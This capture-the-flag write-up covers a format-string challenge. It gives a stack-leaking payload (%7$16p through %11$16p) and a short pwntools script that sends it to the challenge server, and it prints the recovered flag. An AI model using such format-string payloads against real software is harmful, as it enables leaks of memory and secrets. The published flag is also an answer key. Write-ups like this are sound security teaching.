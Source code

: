 This problem involved leaking the flag via string format exploit.

By sending a format string without sending an accompanying argument, the stack will be popped each time.

We are being asked to provide input to the program and we quickly find that it is vulnerable to the string format exploit.

![Vulnerable](readme1.png)

We then are able to leak the memory in the stack containing the flag by specifying our payload as:
```
%7$16p%8$16p%9$16p%10$16p%11$16p
```

The program will then respond with qwords of memory corresponding to the 7th, 8th, 9th, 10th, 11th qwords in the stack.
We may need to send the payload in chunks due to the limited size of the input buffer.

![Debugging](readme2.png)

After converting the hex to ascii, we have leaked the flag:
```
dctf{n0w_g0_r3ad_s0me_b00k5}
```

Exploit:
```python
#!/usr/bin/python3
from pwn import *
p = remote('dctf-chall-readme.westeurope.azurecontainer.io', 7481)

# We may need to send this payload in chunks due to the character limit of the input.
payload1 = b'%7$16p%8$16p%9$16p%10$16p%11$16p'

p.sendlineafter("hello, what's your name?\n",payload1)
print(p.recvall())
```

Flag: `dctf{n0w_g0_r3ad_s0me_b00k5}`
